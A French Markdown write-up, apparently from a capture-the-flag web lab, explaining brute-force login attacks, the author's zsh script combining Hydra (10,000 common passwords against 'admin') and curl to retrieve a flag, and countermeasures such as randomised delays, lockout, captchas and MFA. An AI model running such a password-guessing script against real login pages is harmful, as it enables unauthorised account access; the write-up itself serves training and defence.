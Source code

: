 Voici un fichier `.md` qui décrit ce qu'est une attaque par force brute, comment vous avez réalisé l'attaque et quelles sont les solutions pour la contrer, y compris la solution de randomisation du
# Attaque par Force Brute et Comment la Contre-Mesurer

## Qu'est-ce qu'une faille de brute force ?

Une faille de brute force se produit lorsqu'un attaquant tente systématiquement toutes les combinaisons possibles d'identifiants (ou mots de passe) pour accéder à un système sécurisé. Il s'agit d'une méthode très simple, mais potentiellement efficace, qui repose sur le fait de tester un grand nombre de mots de passe ou de clés jusqu'à ce que l'attaquant trouve la bonne combinaison. Cette méthode peut être particulièrement efficace si le mot de passe est simple, commun ou facilement devinable.

Les outils d'attaque par force brute automatisent ce processus, permettant à l'attaquant de tester des milliers, voire des millions, de combinaisons en très peu de temps.

## Comment j'ai exploité cette faille ?

J'ai utilisé un script pour réaliser une attaque par force brute sur un serveur web, en combinant l'outil **Hydra** pour automatiser la tentative de connexion, et l'outil **Curl** pour vérifier la réponse du serveur. Voici le script que j'ai utilisé :

```bash
#!/bin/zsh

echo "Script de brutforce\n\nDonne l'IP stp :"

read  IP_DARKLY

if [ -z $IP_DARKLY ]; then
    echo "Donne l'IP j'ai dit !"
    exit 1
fi

# Exécution de Hydra pour essayer différents mots de passe
hydra -l admin -P 10000-most-common-passwords.txt -F -V "$IP_DARKLY" http-get-form '/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:F=images/WrongAnswer.gif'

echo "\n\nDonne le mot de passe qu'on test ca :"

read PASSWORD

# Utilisation de curl pour vérifier si le mot de passe est correct et récupérer le flag
curl "http://$IP_DARKLY/index.php?page=signin&username=admin&password=$PASSWORD&Login=Login#" | grep flag | awk -F': | <' '{print "\nThe flag => "$2}'
```

### Explication du Script :

1. **Hydra** : Utilisé pour essayer une liste de 10 000 mots de passe communs afin de casser le mot de passe de l'utilisateur "admin" sur la page de connexion du serveur.
2. **Curl** : Après avoir récupéré le mot de passe, j'ai utilisé `curl` pour envoyer une requête HTTP au serveur avec le mot de passe trouvé et rechercher un **flag** dans la réponse de la page.
3. **awk et grep** : Ces outils permettent d'extraire le flag trouvé sur la page si le mot de passe est correct.

## Solution pour contrer les attaques par force brute

### 1. **Randomiser le délai de réponse**

L'une des solutions les plus efficaces contre une attaque par force brute est d'ajouter un **délai de réponse** aléatoire. Actuellement, le serveur que j'attaque met un délai de 2 secondes si le mot de passe est incorrect. Un attaquant peut s'attendre à ce délai et ajuster son attaque en conséquence.

Pour contrer cela, on peut introduire une variabilité dans le délai de réponse (par exemple entre 1 et 5 secondes), rendant beaucoup plus difficile pour un attaquant d'estimer la durée exacte et donc de mener une attaque efficace. Cela introduit une incertitude dans le processus d'attaque, ralentissant potentiellement les tentatives de force brute.

### 2. **Bloquer ou limiter les tentatives de connexion**

- **Verrouillage temporaire** : Après un certain nombre de tentatives de connexion échouées, verrouiller temporairement le compte pour une durée spécifique (par exemple 15 minutes).
- **Captchas** : Demander à l'utilisateur de résoudre un captcha après un nombre défini de tentatives échouées peut également décourager les attaques automatisées.

### 3. **Utilisation de mots de passe forts**

Une bonne défense contre les attaques de force brute est d'encourager (ou d'imposer) l'utilisation de mots de passe longs et complexes. Cela augmente considérablement le temps nécessaire pour que l'attaquant devine le mot de passe, même en utilisant des outils automatisés.

### 4. **Utilisation de l'authentification multi-facteurs (MFA)**

L'authentification multi-facteurs est une méthode très efficace pour empêcher les attaques de force brute. Même si un attaquant parvient à casser le mot de passe, il lui faudra également un second facteur (comme un code envoyé par SMS ou une application d'authentification), ce qui rend l'attaque beaucoup plus difficile.

---

Avec ces mesures en place, les attaques par force brute deviennent beaucoup plus difficiles à exécuter, protégeant ainsi les utilisateurs et les serveurs des attaques malveillantes.